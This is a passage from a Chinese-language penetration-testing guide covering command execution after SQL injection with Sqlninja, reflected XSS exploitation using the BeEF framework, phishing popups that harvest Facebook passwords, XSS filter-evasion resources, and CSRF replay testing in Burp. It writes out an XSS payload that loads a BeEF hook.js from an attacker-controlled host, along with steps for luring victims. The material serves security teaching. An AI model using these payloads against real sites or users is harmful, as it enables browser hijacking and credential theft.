

Figure 35 - Sqlninja 示例

一旦 `xp_cmdshell` 可用，我们想要测试是否拥有命令行访问权限以及拥有什么类型的权限。在下面的例子中，我们正在利用 SQLi 漏洞并测试命令行命令。

在这个特定测试中（如下图），看起来我们可能正在服务器上运行命令，但我们需要验证这一点。问题在于，在我们拥有的互联网服务器上设置监听器后，似乎没有看到来自受损服务器的出站连接。如果我们想要窃取数据回传或下载额外的恶意软件，这可能是个问题。由于 Sqlninja 创建的命令行控制台不显示命令的响应，我们确实需要验证我们的命令是否成功执行。

检查命令是否工作的最好方法是在我们公开拥有的外部服务器上使用 `tcpdump` 监听 ping。通过在受损服务器上运行 ping 命令，我们可以轻松验证我们的服务器是否响应 ping。使用 ping 的原因是 ICMP 通常允许出站，且不太可能触发 IDS/IPS 签名。这可以通过攻击者拥有的外部服务器上的以下命令配置：

*   `tcpdump -nnvXSs 0 -c2 icmp`

该命令将记录发送到我服务器的任何 ping，我将能够验证服务器可以向外通信且我的命令正在工作。在我受损的 SQLi 主机上，我执行一个简单的 ping 回我的服务器。如果成功，`tcpdump` 将看到 ICMP 请求。

命令行 SQLi 攻击可以通过以下命令运行：

*   `sqlninja -f [configuration_file] -m c`

正如下图所示，我首先尝试运行 telnet 命令回连我的服务器，但不成功。然后我尝试发起 ping 命令回我的服务器，此时 `tcpdump` 正在监听。在这种情况下，我的攻击成功了，这证明我可以在该主机上运行完整命令，但它没有向外的 Web 访问权限。

在下图中，顶部是我的服务器记录 ping，底部图像是易受 SQLi 攻击的受害主机。尽管 telnet 命令似乎失败了，但 ping 是成功的。



Figure 36 - SQLMap 命令注入 Ping

如果你已经走到这一步但不确定下一步该做什么，可以跳转到 Lateral Pass Section 了解后续步骤。这应该能给你足够的细节帮助你开始在易受攻击的框架上测试和练习。当然，这些是最佳场景选项，即 SQLi 无需配置关于数据库类型、盲注类型或其他时序问题的详细设置即可生效。


我不能在不谈论跨站脚本（XSS）的情况下谈论 Web 应用程序漏洞。这可能是我发现的最常见的漏洞之一。正如我们所知，XSS 是由应用程序缺乏输入验证引起的用户攻击。有两种类型的 XSS：反射型和存储型，它们允许攻击者将脚本代码写入用户的浏览器。我将重点关注反射型 XSS，因为它是最常见的，而且在很大程度上，利用该漏洞的方法相对相似。

BeEF Exploitation Framework (http://beefproject.com/) (Kali Linux)


我从客户那里得到的普遍问题是：“XSS 到底能造成多大危害？”请记住，利用此漏洞，你拥有在最终用户浏览器上编写脚本代码的完全能力，因此 JavaScript 能做的任何事情都可能被用来攻击受害者。在本节中，我们将深入探讨 XSS 攻击可以有多恶意。

我见过的用于配合各种 XSS 攻击的最佳工具叫做 **BeEF Exploitation Framework（BeEF 利用框架）**。如果你发现了一个 XSS，你不仅能让受害者成为你伪僵尸网络的一部分，还能窃取剪贴板内存的内容、将他们重定向到链接、开启他们的摄像头，以及更多功能。

如果你确实在某个网站上发现了一个有效的 XSS，你将需要构建你的 XSS 发现以利用 BeEF 框架。对于本章的 XSS 示例，我们将使用从最初的 Burp 主动扫描中识别出的一个 XSS。让我们以这个示例易受攻击的 URL 为例：

`http://www.securepla.net/xss_example/example.php?alert=test'<script>[iframe]</script>`

从“搭建渗透测试箱”部分，我们已将 BeEF 安装在 `/usr/share/beef-xss` 中。我们首先必须启动 BeEF 服务：

#### 启动 BeEF 命令

*   `cd /usr/share/beef-xss`
*   `./beef`



图 37 - 启动 BeEF

BeEF 服务器启动后，让我们登录控制台 UI。正如上图所示，本例中的 UI URL 位于 `http://127.0.0.1:3000/ui/authentication`。我们可以打开浏览器并访问该 URL。



图 38 - BeEF 登录屏幕

如果一切启动成功，你将需要使用用户名和密码 `beef: beef` 登录 UI。如果我们查看通过命令行加载 BeEF 的图像，我们看到了 UI 页面的 URL 和钩子页面的 URL。让我们花一点时间快速查看一下钩子页面 (`hook.js`)。



图 39 - BeEF 客户端 JavaScript

尽管此 JavaScript 已经过良好的混淆，但这是将控制受害者用户并被注入到受害者浏览器页面中的载荷。一旦注入，他们的浏览器将连接回你的中央服务器，而受害者对此毫不知情。

因此，如果我们在某个页面上定位到了 XSS 漏洞，现在可以使用 BeEF 来帮助利用最终用户。在我们最初的示例中，`http://securepla.net/xss_example/example.php?alert=`，`alert` 变量接受任何输入并将其呈现给最终用户。我们可以在此手动添加我们的 JavaScript 代码并将链接发送给毫无戒心的用户。在下面的示例中，我使用 JavaScript 代码打印出用户的 DOM Cookie：

*   `<script>alert(document.cookie)</script>`



图 40 - XSS 发现示例

这证明最终用户确实处理了从我们的查询中嵌入的 JavaScript 代码。为了创建一个成功的利用，我们不打印 Cookie，而是将构建一个使用 JavaScript 包含 `hook.js` 文件的 URL。它看起来会像这样：`http://securepla.net/xss_example/example.php?alert=asda<script src=http://192.168.10.91:3000/hook.js></script>`。我通过使用以下 JavaScript 代码追加了 `hook.js` 脚本：

*   `<script src=[包含 hook.js 的 URL]></script>

请记住，如果这是在公共网站上进行，则该 URL 需要指向托管 `hook.js` 页面和监听服务的公共地址。

一旦你使用社会工程学战术诱骗受害者访问该 URL，他们将成为你的 XSS 僵尸网络的一部分。回到我们的 UI 面板，我们现在应该能看到一个受害者已加入我们的服务器。



图 41 - BeEF 客户端攻击

挂马成功后，BeEF 中有许多不同的模块可用于利用最终用户。如上图所示，你可以尝试窃取存储的凭据、获取主机 IP 信息、扫描其网络内的主机，以及更多功能。

我最喜欢的攻击之一叫做“小偷小摸”，因为它非常简单。向下展开到“社会工程学”文件夹并选择“小偷小摸”。配置你想要的方式，在本例中我们将使用 Facebook 示例，然后点击执行。请记住，自定义 Logo 字段的 IP 必须是你的 BeEF IP。这是为了让受害者能从你的服务器获取图片。



图 42 - 小偷小摸 Facebook 攻击

攻击者点击提交后，在受害者的系统上会弹出一个 Facebook 密码提示框。这就是你可以发挥创意、针对目标用户并使用他们最有可能输入的弹窗的地方。如果你想获取 Google 账户，也有一个 Google 钓鱼模块。这种客户端攻击的目的是让他们毫不知情自己已成为僵尸网络的一部分，且密码提示看起来不应该引起任何怀疑。



图 43 - 小偷小摸攻击

毫无戒心的受害者输入密码后，返回 UI 查找你的战利品。点击 id 0 将向攻击者显示受害者在该框中输入的内容。这应该足以开始以该用户的身份获取一些访问权限，并在环境中横向移动。



图 44 - 小偷小摸结果

希望我能演示 XSS 漏洞有多强大。如果 XSS 发现是存储型 XSS，而不是我们刚才看到的反射型示例，情况会呈指数级恶化。如果是存储型的，我们很可能甚至不需要通过社会工程学诱骗受害者点击链接，只需等待我们的代码被执行即可。

### 跨站脚本攻击混淆

我遇到的问题是，应用程序为这些易受攻击的 XSS 字段提供某种输入验证的情况非常普遍。这意味着 XSS 仍然有效，但你没有成功利用此漏洞所需的所有普通字符。对渗透测试人员来说，好消息是这些过滤器通常配置不当。

这些输入验证脚本的问题在于，由于编码 XSS 攻击的方式有太多不同类型，过滤器通常会失效。你真的可以写一整本书来讲述如何构建不同的 XSS 攻击，但这里是我获取可用编码器工作列表的快速实用技巧。

#### 众包

我最喜欢的方法之一是访问 `http://www.reddit.com/r/xss` 来寻找大量有效的 XSS 漏洞。人们会在那个子版块发布他们发现的不同 XSS。为了挖掘这些 XSS 发现，我创建了一个小型 Python 脚本来抓取该子版块的不同 XSS 发现。要下载副本，请访问：`https://www.securepla.net/script-alertreddit-script/`。输出将如下所示：



图 45 - XSS 众包

正如你所见，人们尝试使用 `from-CharCode`、百分号编码、`htmlentities` 和其他 JavaScript 命令来混淆 XSS 攻击。现在你拥有了一个很好的 XSS 示例列表（其中许多仍然有效）和编码方式。一个快速的额外说明是，我不建议你带着 XSS 载荷访问易受攻击的网站，因为你可能会被视为在攻击他们的网站。我想做的是向你展示一个很好的示例列表，可能有助于你的攻击。

#### OWASP 备忘单


另一个我常用且想提及的列表是 OWASP 绕过备忘单。在我的测试过程中，当我遇到编码问题时，这通常是我首先查阅的地方。备忘单可在此处找到：[`www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)。我发现最常见的 XSS 防护措施是长度限制和不允许使用大于/小于符号。幸运的是，OWASP 提供了许多不同的示例来绕过这些问题。


跨站请求伪造（CSRF）发生在你能强制受害者执行不想要的操作时。我典型的例子是：你向一个当前已登录其银行账户的人发送一个链接。当他们访问你发送的链接时，会自动将其账户中的钱转到你的账户。之所以会发生这种情况，是因为没有验证用户是否经过了转账的正确流程。

我的意思是，要转账，用户需要登录，进入转账页面，选择收款人，然后转账。在正确的流程中，每个页面都会生成一个 CSRF 令牌，每当你在应用程序中进行下一步操作时，它都会验证前一个令牌。你可以把这看作是跟踪当前的会话/流程，如果这些令牌中的任何一个为空或错误，则不处理交易。

测试这一点有许多复杂的方法，但我手动运行这些测试最简单的方法是通过代理流量。我会完全按照上述步骤进行转账操作，并查看是否可以重放该请求。

### 使用 Burp 进行 CSRF 重放攻击

让我们以一个银行应用程序允许用户之间转账为例。在下面的 URL 中，使用了两个参数。第一个参数 `User` 是收款人，`Dollar` 是金额。在下面的例子中，我们成功地向 Frank 转了账。

如果我将这个相同的 URL 发送给另一个已经登录同一银行应用程序的人，会发生什么？好吧，如果没有 CSRF 保护，它会瞬间从受害者主机向 Frank 转账 123.44 美元。



**图 46 - CSRF 示例**

要测试这是否可能，首先我们将通过 Burp 捕获请求。因此，请确保你的浏览器仍在代理到 Burp，并使用用户 1 发起请求。这应该可以正常工作，因为你经过了正确的渠道进行转账。你登录了，进入了转账页面，填写了信息，并提交了。

在下面的例子中，我们可以去 Burp 的“Proxy”选项卡下的“History”，查看我们最近的请求。在最底部，我们看到了银行转账的请求。立刻我们就看到有一个 hook cookie，但没有任何看起来像 CSRF 令牌的东西。

